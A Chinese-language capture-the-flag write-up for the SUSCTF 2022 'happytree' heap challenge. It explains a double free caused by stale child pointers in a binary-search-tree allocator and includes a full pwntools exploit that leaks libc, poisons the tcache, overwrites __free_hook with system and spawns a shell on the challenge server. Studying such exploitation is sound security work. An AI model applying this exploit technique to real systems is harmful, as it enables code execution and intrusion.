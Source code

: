 # Susctf2022 Happytree


许久未更新了

<!--more-->

本次susctf2022遇到一个很有意思的堆题，比赛的时候愣是看了一个下午没做出来，只好赛后借着官方wp复现一波了。

## 基础check

程序保护全开
```bash
❯ checksec ./happytree
[*] '/home/leo/ctfs/ph0t1n1a/2022/susctf2022/pwn/happytree/happytree'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

libc版本2.27，意味着tcache结构只有next指针，可以double free，unsorted bin attack无防护。

```bash
❯ ./libc.so.6
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1.2) stable release version 2.27.
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 7.5.0.
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```

## 功能

先丢IDA，发现是一个用二叉搜索树来组织堆块的程序。（我tm看了近一小时才看出来）

程序提供三个功能：`insert`/`delete`/`show`，三个函数的参数都是用户输入的size，而不是普通堆题的index之类的。

大致概括就是：

- 每次`insert`操作会创建两个堆块，一个是**固定大小0x30的管理堆块**，一个是**由用户输入大小而确定的不固定大小堆块**。管理堆块中存储用户输入的**大小**，指向内容堆块的**指针**，**左儿子节点**和**右儿子节点**。所有的管理堆块构成一棵**二叉搜索树**，最先创建的管理堆块是树的根节点，bss段的`0x2022a0`地址处存储了根节点的地址。insert中的size参数存在unsigned int8限制，所以我们申请堆块的范围就是`[0, 0xff]`。

  ```bash
  --------------
  |      | 0x31  |
  | ---- | ----- |
  | size | ptr   |
  | ---- | ----  |
  | left | right |
  --------------
  ```

- `delete`操作会寻找到与输入size相同的节点，然后判断其是否含有左右儿子节点：

  - 如果左右儿子节点都存在，则找到右子树中的最左叶子节点，将最左叶子节点记录的size填写到当前节点中，然后去free那个最左叶子节点的两个堆块。
  - 否则，释放改节点对应的堆块，然后返回节点存储的左/右子节点地址（或者0）。

- `show`操作就是找到与输入size相同的节点，然后打印。

## 漏洞点

漏洞点在于，当执行`delete`操作时，对于将要free的节点，程序并没有清空其中可能存在的左右儿子节点指针（即程序中的`a2[2]`/`a2[3]`），当释放然后又分配回来后，就会有两个节点的指向同一个儿子节点，构成double free。

![Untitled](Untitled.png "delete函数")

再加上`[0, 0xff]`的范围已经可以让我们释放chunk进入unsorted bin中，所以泄露Libc也是可行的。

## exp分析

```python
#!/usr/bin/python3
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

host = '124.71.147.225'
port = 9999
elfpath = 'happytree_patched'
libcpath = 'libc.so.6'
e = ELF(elfpath)
context.binary = e
libc = ELF(libcpath)

context.binary = e

if args.LOCAL:
    p = process([e.path])
    # gdb.attach(p)
else:
    p = remote(host, port)

# io

def s(c): return p.send(c)
def sl(c): return p.sendline(c)
def r(n): return p.recv(n)
def rn(n): return p.recvn(n)
def ru(pattern, drop=False): return p.recvuntil(pattern, drop=drop)
def rl(): return p.recvline()
def ru7f(): return p.recvuntil(b'\x7f')
def su(x): return p.success(x)
def shell(): return p.interactive()

# utilities

def leak(func, address): return p.success(
    "{} ==> {}".format(func, hex(address)))

def command(c):
    ru(b'cmd> ')
    sl(str(c).encode())

def insert(size, content=b'a'):
    command(1)
    ru(b'data: ')
    sl(str(size).encode())
    ru(b'content: ')
    s(content)

def delete(size):
    command(2)
    ru(b'data: ')
    sl(str(size).encode())

def show(size):
    command(3)
    sl(str(size).encode())
    # ru(b'content: ')

# start pwning
insert(1)
insert(2)
insert(8, b'/bin/sh\x00')

# use unsorted bin to leak libc
for i in range(8):
    insert(0xd0 + i)
for i in range(8):
    delete(0xd7 - i)
# 1 -> 2 -> 8

for i in range(7):
    insert(0xd0 + i)
insert(0xd7, b'a'*8)
show(0xd7)

leakaddr = u64(ru7f()[-6:].ljust(8, b'\x00'))
libc_base = leakaddr - (0x7f8246ba2ca0 - 0x7f82467b7000)
leak("libc base", libc_base)
libc.address = libc_base
free_hook = libc.sym['__free_hook']
system = libc.sym['system']

# double free
insert(0xf2)
insert(0xf7)
insert(0xf6)
insert(0xf4)
insert(0xf5)
insert(0xf0)
insert(0xf1)

# 构造double free
delete(0xf2)
insert(0xf8)
delete(0xf5)
delete(0xf8)
delete(0xf7)

# 填充两个正常的0x30 tcache bin
delete(1)
delete(2)

# 利用构造好的tcache[0x100]中的double free来修改free_hook
insert(0xef, p64(free_hook))
insert(0xee, p64(0))
insert(0xed, p64(0))
gdb.attach(p)
insert(0xec, p64(system))
delete(8)

shell()
```

利用unsorted bin泄露libc之后，二叉树的部分如下图所示。接着的`delete(0xf2)`操作实际上删除的是`0xf4`大小的节点，并将`0xf2`节点记录的size改写为`0xf4`。

![Untitled](Untitled%201.png "流程1")

所以，紧接着的`insert(0xf8)`会得到一个残留有`0xf5`节点指针的节点，而因为之前的`delete(0xf2)`操作，`0xf6`同样会指向`0xf5`节点。

![Untitled](Untitled%202.png "流程2")

然后`delete(0xf5)`会搜索到`0xf6`左子树中的`0xf5`节点，然后删除其对应的堆块。此时的树与tcache的情况如图所示。

![Untitled](Untitled%203.png "流程3")

接着`delete(0xf8)`将`0xf5`移动到`0xf7`的右子树。

![Untitled](Untitled%204.png "流程4")

因为`0xf7`节点的左右叶子节点均存在，所以`delete(0xf7)`操作又会搜索到`0xf5`节点然后再次将其删除。此时，tcache中已经产生了double free。

![Untitled](Untitled%205.png "流程5")

![Untitled](Untitled%206.png "调试验证")

接下来就是常规的tcache double free应用，最终改free_hook然后getshell。

## 总结

第一次碰到这种结合数据结构来出的堆题，洞藏得挺隐蔽的（不是，其实有经验的话一眼就能看出来），而且创建和释放堆块的操作还需要选手去复习一波二叉搜索树的性质，所以总体来说是一道非常有趣的题，特此记录一下。
